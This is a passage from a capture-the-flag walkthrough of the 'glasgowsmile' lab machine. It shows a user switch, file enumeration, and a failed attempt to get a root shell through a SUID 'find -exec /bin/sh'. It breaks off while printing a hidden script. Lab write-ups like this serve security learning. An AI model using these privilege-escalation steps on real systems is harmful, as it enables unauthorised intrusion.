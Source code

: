 ### 12. Switch to penguin
```bash
abner@glasgowsmile:/tmp$ su - penguin
Password: 
penguin@glasgowsmile:~$ id
uid=1002(penguin) gid=1002(penguin) groups=1002(penguin)
```

### 13. Enumerate from user
Check out files in Penguins directory.
```bash
penguin@glasgowsmile:~$ ls
SomeoneWhoHidesBehindAMask
penguin@glasgowsmile:~$ cd SomeoneWhoHidesBehindAMask; ls
find  PeopleAreStartingToNotice.txt  user3.txt
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat PeopleAreStartingToNotice.txt 
Hey Penguin,
I'm writing software, I can't make it work because of a permissions issue. It only runs with root permissions. When it's complete I'll copy it to this folder.

Joker
```
The "find" binary is a SUID. Let's see what it is.
```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ chmod +x find
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ./find
.
./user3.txt
./find
./PeopleAreStartingToNotice.txt
./.trash_old
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ./find --help
Usage: ./find [-H] [-L] [-P] [-Olevel] [-D debugopts] [path...] [expression]
```

This is literally just the unix "find" binary with the suid bit set.

### 14. Fail to escalate to root
Find allows for command execution with the -exec flag, in theory this should allow escalation to root, but it appears as though this functionality does not work (probably modified somehow to prevent it?).
```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ./find user3.txt -exec /bin/sh \;
$ id
uid=1002(penguin) gid=1002(penguin) groups=1002(penguin)
```

### 15. Keep looking
Also in the user's directory is another script called .trash_old.
```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
total 332
drwxr--r-- 2 penguin penguin   4096 Jun 16  2020 .
drwxr-xr-x 5 penguin penguin   4096 Jun 16  2020 ..
-rwsr-x--x 1 penguin penguin 315904 Jun 15  2020 find
-rw-r----- 1 penguin root      1457 Jun 15  2020 PeopleAreStartingToNotice.txt
-rwxr-xr-x 1 penguin root       612 Jun 16  2020 .trash_old
-rw-r----- 1 penguin penguin     38 Jun 16  2020 user3.txt
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat ./.trash_old 
#/bin/sh

#       (            (              )            (      *    (   (
# (      )\ )   (     )\ ) (      ( /( (  (       )\ ) (  `   )\ ))\ )
# )\ )  (()/(   )\   (()/( )\ )   )\()))\))(   ' (()/( )\))( (()/(()/( (
```